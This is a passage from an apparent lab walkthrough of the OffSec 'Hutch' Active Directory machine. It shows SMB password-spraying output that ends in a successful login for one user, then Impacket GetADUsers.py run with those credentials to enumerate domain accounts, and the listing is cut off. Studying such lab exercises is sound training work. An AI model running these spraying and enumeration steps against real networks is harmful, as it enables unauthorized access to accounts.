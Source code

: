 ```bash
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\rplacidi:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\opatry:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\ltaunton:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\acostello:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\jsparwell:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\oknee:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\jmckendry:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\avictoria:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\jfrarey:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\eaburrow:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\cluddy:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\agitthouse:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192
```

Now we got the valid username and password: `fmcsorley:CrabSharkJellyfish192`

With this user info, we can find user list with Impacket GetADUsers.py

```bash
┌──(root💀kali)-[~/hatch]
└─# GetADUsers.py -all -dc-ip 192.168.175.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 192.168.175.122 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2023-09-25 23:50:22.722364  2020-11-04 07:58:40.654236 
Guest                                                 <never>              <never>             
krbtgt                                                2020-11-04 07:26:23.099902  <never>             
rplacidi                                              2020-11-04 07:35:05.106274  <never>             
opatry                                                2020-11-04 07:35:05.216273  <never>             
ltaunton                                              2020-11-04 07:35:05.264272  <never>             
acostello                                             2020-11-04 07:35:05.315273  <never>             
jsparwell                                             2020-11-04 07:35:05.377272  <never>             
oknee                                                 2020-11-04 07:35:05.433274  <never>             
jmckendry                                             2020-11-04 07:35:05.492273  <never>             
avictoria                                             2020-11-04 07:35:05.545279  <never>             
jfrarey                                               2020-11-04 07:35:05.603273  <never>             
```